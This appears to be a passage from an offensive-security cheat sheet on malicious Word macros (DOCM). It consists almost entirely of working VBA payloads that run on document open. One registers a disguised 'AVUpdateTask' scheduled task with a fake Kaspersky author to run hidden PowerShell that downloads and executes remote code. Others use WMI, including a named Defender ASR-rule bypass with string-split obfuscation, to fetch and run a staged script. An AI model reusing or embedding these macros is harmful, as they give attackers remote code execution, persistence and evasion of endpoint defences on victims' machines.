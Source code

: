 
## DOCM - VBA Spawning via svchost.exe using Scheduled Task

```ps1
Sub AutoOpen()
    Set service = CreateObject("Schedule.Service")
    Call service.Connect
    Dim td: Set td = service.NewTask(0)
    td.RegistrationInfo.Author = "Kaspersky Corporation"
    td.settings.StartWhenAvailable = True
    td.settings.Hidden = False
    Dim triggers: Set triggers = td.triggers
    Dim trigger: Set trigger = triggers.Create(1)
    Dim startTime: ts = DateAdd("s", 30, Now)
    startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
    trigger.StartBoundary = startTime
    trigger.ID = "TimeTriggerId"
    Dim Action: Set Action = td.Actions.Create(0)
    Action.Path = "C:\Windows\System32\powershell.exe"
    Action.Arguments = "-nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.59:80/fezsdfqs'))"
    Call service.GetFolder("\").RegisterTaskDefinition("AVUpdateTask", td, 6, , , 3)
End Sub
Rem powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.59:80/fezsdfqs'))"
```

## DOCM - WMI COM functions

Basic WMI exec (detected by Defender) : `r = GetObject("winmgmts:\\.\root\cimv2:Win32_Process").Create("calc.exe", null, null, intProcessID)`

```ps1
Sub wmi_exec()
    strComputer = "."
    Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
    Set objStartUp = objWMIService.Get("Win32_ProcessStartup")
    Set objProc = objWMIService.Get("Win32_Process")
    Set procStartConfig = objStartUp.SpawnInstance_
    procStartConfig.ShowWindow = 1
    objProc.Create "powershell.exe", Null, procStartConfig, intProcessID
End Sub
```

* https://gist.github.com/infosecn1nja/24a733c5b3f0e5a8b6f0ca2cf75967e3
* https://labs.inquest.net/dfi/sha256/f4266788d4d1bec6aac502ddab4f7088a9840c84007efd90c5be7ecaec0ed0c2

```ps1
Sub ASR_bypass_create_child_process_rule5()
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("win" & "mgmts" & ":\\" & strComputer & "\root" & "\cimv2")
    Set objStartup = objWMIService.Get("Win32_" & "Process" & "Startup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root" & "\cimv2" & ":Win32_" & "Process")
    objProcess.Create "cmd.exe /c powershell.exe IEX ( IWR -uri 'http://10.10.10.10/stage.ps1')", Null, objConfig, intProcessID
End Sub

Sub AutoExec()
    ASR_bypass_create_child_process_rule5
```